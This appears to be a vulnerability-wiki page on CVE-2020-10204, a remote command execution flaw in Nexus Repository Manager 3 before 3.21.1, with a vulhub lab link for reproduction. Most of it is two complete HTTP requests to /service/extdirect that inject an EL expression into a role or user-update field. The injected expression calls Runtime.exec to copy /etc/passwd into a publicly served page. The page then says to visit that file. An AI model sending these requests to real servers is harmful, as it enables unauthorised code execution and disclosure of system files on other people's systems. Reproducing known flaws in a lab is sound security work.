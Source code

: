 # Nexus Repository Manger extdirect background remote command execution CVE-2020-10204

## Vulnerability Description

Nexus Repository Manager 3 is a software repository that can be used to store and distribute software source repositories such as Maven and NuGET. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Nexus < 3.21.1</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204</span>

## Vulnerability reappears

Vulnerability triggering requires any account permissions

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210628181754513.png)

This vulnerability requires access to update roles or create role interfaces, and modify `NXSESSIONID` after logging in to any user.

Send request packet to execute command

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}
```

Another loophole

```json
POST /service/extdirect HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304


{"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}
```

Visit vuln.html

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210628191832105.png)